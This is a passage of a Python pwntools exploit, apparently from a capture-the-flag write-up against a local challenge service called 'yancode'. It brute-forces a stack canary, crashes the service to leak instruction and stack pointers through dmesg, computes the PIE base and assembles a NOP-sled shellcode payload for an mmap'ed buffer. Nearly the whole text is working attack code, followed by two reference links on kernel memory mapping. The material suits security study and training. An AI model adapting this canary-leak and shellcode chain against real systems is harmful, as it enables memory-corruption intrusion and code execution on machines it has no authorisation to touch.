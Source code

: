 ```python
                    log.info(f'NEW BYTE FOUND: {hex(b)}')
                    canary += b.to_bytes(1, 'little')
                    current = candidate
                    if debug:
                        canary = input('write the canary value\n')
                        return int(canary, 16)
                    if len(canary) == 8:
                        return u64(canary)


def get_leaks(canary):
    with remote('localhost', 1337) as r0:
        crash_program = 15
        crashing_yancode = p64(canary)
        crashing_yancode *= int(MAX_YANCODE_SIZE / 8)
        load_program(r0, crash_program, crashing_yancode)
        time.sleep(0.1)
        quit(r0)

    time.sleep(2)

    with process('dmesg | grep traps | tail -n 1', shell=True) as dmesg:
        dmesg.recvuntil(b'ip:')
        ip_leak = int(dmesg.recvuntil(b' '), 16)
        dmesg.recvuntil(b'sp:')
        sp_leak = int(dmesg.recvuntil(b' '), 16)

    log.info(f'ip_leak: {hex(ip_leak)} sp_leak: {hex(sp_leak)}')
    return ip_leak, sp_leak

def main():    
    p = process(BINARY)
    input("Press enter to start..")
    log.info("Exploit starts!")

    pad_size = 0x318
    canary = leak_canary(pad_size, debug=False)
    log.info(f'canary: {hex(canary)}')

    ip_leak, sp_leak = get_leaks(canary)
    pie_base = ip_leak - 0x175d
    log.info(f'pie_base: {hex(pie_base)}')
    assert(pie_base & 0xfff == 0)
    

    r1 = remote('localhost', 1337)   
    input("Press enter to load yancode to mmap'ed buffer..")
    yancode_program = 0
    yancode = gen_yancode()
    load_program(r1, yancode_program, yancode)

    target_ypu = 0
    init_ypu(r1, target_ypu, yancode_program)


    input("Press enter to load shellcode..")
    ypu_0_mmap_addr = pie_base + binary.symbols['data'] + 8
    log.info(f'ypu_0_mmap_addr: {hex(ypu_0_mmap_addr)}')

    shellcode_program = 0
    shellcode = b'\x90' * 0x100
    shellcode += asm(SHELLCODE.format(ypu_0_mmap_addr, ord(Opcodes.CMP), ord(Opcodes.SYSCALL)))
    shellcode += b'\x90' * (MAX_YANCODE_SIZE - len(shellcode))
```

[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html